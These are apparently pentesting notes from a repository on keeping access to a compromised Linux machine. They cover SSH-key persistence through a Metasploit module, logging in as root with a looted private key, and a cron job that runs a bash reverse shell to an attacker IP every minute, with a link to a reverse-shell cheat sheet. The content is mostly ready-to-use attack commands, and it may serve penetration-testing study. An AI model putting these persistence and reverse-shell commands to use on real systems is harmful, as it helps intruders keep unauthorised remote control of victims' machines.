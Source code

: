 # Via SSH keys:

- post/linux/manage/sshkey_persistence (needed elevated privs, check rootkit for privesc)
	- set CREATESSHFOLDER true
	- check loot, copy the key and save it as a new file and do these -
	- chmod 0400 ssh_key
	- ssh -i ssh_key root@192.182.80.3
- id_rsa : pvt key
- scp file.txt:user@192.168.1.100:/root
- authorized_keys: list of pub keys authorized to access server.
- login with pvt key: ssh -i [pvt_key] [user]@[target_ip]
	
# Using Cron Jobs:

- ps -eaf | grep cron : see if cron service is running
- create netcat listener on attacker machine.
- create cronjob on target machine. 
- * * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'
- Another Way: serve http server using python

￼![persistence](./images/lin-persist-01.png)

- cheatsheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
